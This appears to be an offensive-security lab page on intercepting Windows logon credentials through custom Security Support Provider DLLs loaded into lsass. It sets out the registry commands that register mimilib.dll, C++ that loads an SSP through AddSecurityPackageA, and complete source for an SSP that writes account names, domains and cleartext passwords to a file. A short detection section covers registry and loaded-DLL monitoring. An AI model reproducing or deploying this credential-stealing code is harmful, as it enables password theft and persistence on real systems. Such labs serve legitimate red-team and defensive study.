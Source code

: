 ```yaml
---
description: 'Credential Access, Persistence'
---
```


# Intercepting Logon Credentials via Custom Security Support Provider and Authentication Packages

This technique abuses Windows Security Support Provider \(SSP\) and Authentication Packages \(AP\) that come in the form of DLLs that get injected into LSASS.exe process on system boot or dynamically via `AddSecurityPackage` API.

## Loading SSP with Reboot

In this lab, mimikatz Security Support Provider [mimilib.dll](https://github.com/gentilkiwi/mimikatz) will be registered as a Windows Security Package.

Once the Security Package is registered and the system is rebooted, the mimilib.dll will be loaded into lsass.exe process memory and intercept all logon passwords next time someone logs onto the system or otherwise authenticates, say, via `runas.exe`.

Let's now build the [mimilib.dll](https://github.com/gentilkiwi/mimikatz) and copy it to the target machine's system32 folder:

{% code title="attacker@target" %}
```cpp
PS C:\> copy mimilib.dll %systemroot%\system32
```
{% endcode %}

Get a list existing LSA Security Packages:

{% code title="attacker@target" %}
```bash
PS C:\> reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
    Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u
```
{% endcode %}

Add mimilib.dll to the Security Support Provider list \(Security Packages\):

{% code title="attacker@target" %}
```csharp
PS C:\> reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ /f
```
{% endcode %}

The below shows `Security Packages` registry value with the `mimilib` added and the `kiwissp.log` file with a redacted password that had been logged during the user logon \(after the system had been rebooted after the Security Package was registered\):

![](../../.gitbook/assets/lsa-security-packages.png)

{% hint style="info" %}
Reboot is required for the new SSP to take effect after it's been added to the Security Packages list.
{% endhint %}

## Loading SSP without Reboot

It's possible to load the SSP DLL without modifying the registry:

![](../../.gitbook/assets/image%20%28440%29.png)

Below code loads the malicious SSP spotless.dll:

```cpp
#define WIN32_NO_STATUS
#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <NTSecAPI.h>
#include <ntsecpkg.h>
#pragma comment(lib, "Secur32.lib")

int main()
{
    SECURITY_PACKAGE_OPTIONS spo = {};
    SECURITY_STATUS ss = AddSecurityPackageA((LPSTR)"c:\\temp\\spotless.dll", &spo);
    return 0;
}
```

Below shows how the new Security Package spotless.dll is loaded by lsass and is effective immediately:

![procmon filter: path contains &quot;spotless&quot;](../../.gitbook/assets/load-ssp.gif)

{% hint style="info" %}
Loading the SSP with this approach does not survive a reboot unlike SSPs that are loaded as registered Security Packages via registry.
{% endhint %}

## Detection

It may be worth monitoring `Security Packages` value in`hklm\system\currentcontrolset\control\lsa\` for changes.

Newly added packages should be inspected:

![](../../.gitbook/assets/lsa-commandline.png)

Additionally, mimilib.dll \(same applies to custom spotless.dll\) can be observed in the list of DLLs loaded by lsass.exe, so as a defender, you may want to make a baseline of loaded known good DLLs of the lsass process and monitor it for any new suspicious DLLs:

![](../../.gitbook/assets/lsa-loaded-dll.png)

## Code

Below is the code, originally taken from [mimikatz](https://github.com/gentilkiwi/mimikatz), adapted and refactored to suit this lab, that we can compile as our own Security Support Provider DLL. It intercepts authenticatin details and saves them to a file `c:\temp\logged-pw.txt`:

```cpp
#include "stdafx.h"
#define WIN32_NO_STATUS
#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <NTSecAPI.h>
#include <ntsecpkg.h>
#include <iostream>
#pragma comment(lib, "Secur32.lib")

NTSTATUS NTAPI SpInitialize(ULONG_PTR PackageId, PSECPKG_PARAMETERS Parameters, PLSA_SECPKG_FUNCTION_TABLE FunctionTable) { return 0; }
NTSTATUS NTAPI SpShutDown(void) { return 0; }

NTSTATUS NTAPI SpGetInfo(PSecPkgInfoW PackageInfo)
{
    PackageInfo->Name = (SEC_WCHAR *)L"SSSPotless";
    PackageInfo->Comment = (SEC_WCHAR *)L"SSSPotless <o>";
    PackageInfo->fCapabilities = SECPKG_FLAG_ACCEPT_WIN32_NAME | SECPKG_FLAG_CONNECTION;
    PackageInfo->wRPCID = SECPKG_ID_NONE;
    PackageInfo->cbMaxToken = 0;
    PackageInfo->wVersion = 1;
    return 0;
}

NTSTATUS NTAPI SpAcceptCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials)
{
    HANDLE outFile = CreateFile(L"c:\\temp\\logged-pw.txt", FILE_GENERIC_WRITE, 0, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    DWORD bytesWritten = 0;

    std::wstring log = L"";
    std::wstring account = AccountName->Buffer;
    std::wstring domain = PrimaryCredentials->DomainName.Buffer;
    std::wstring password = PrimaryCredentials->Password.Buffer;

    log.append(account).append(L"@").append(domain).append(L":").append(password).append(L"\n");
    WriteFile(outFile, log.c_str(), log.length() * 2, &bytesWritten, NULL);
    CloseHandle(outFile);
    return 0;
}

SECPKG_FUNCTION_TABLE SecurityPackageFunctionTable[] = 
{
    {
        NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,    SpInitialize, SpShutDown, SpGetInfo, SpAcceptCredentials, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL 
    }
};

// SpLsaModeInitialize is called by LSA for each registered Security Package
extern "C" __declspec(dllexport) NTSTATUS NTAPI SpLsaModeInitialize(ULONG LsaVersion, PULONG PackageVersion, PSECPKG_FUNCTION_TABLE *ppTables, PULONG pcTables)
{
    *PackageVersion = SECPKG_INTERFACE_VERSION;
    *ppTables = SecurityPackageFunctionTable;
    *pcTables = 1;
    return 0;
}
```

## References

{% embed url="https://github.com/gentilkiwi/mimikatz" caption="" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/secauthn/lsa-mode-initialization" caption="" %}

{% embed url="https://github.com/veramine/Detections/wiki/LSA-Packages" caption="" %}

{% embed url="https://adsecurity.org/?p=1760" caption="" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1131" caption="" %}

{% embed url="https://blog.xpnsec.com/exploring-mimikatz-part-2/" caption="" %}

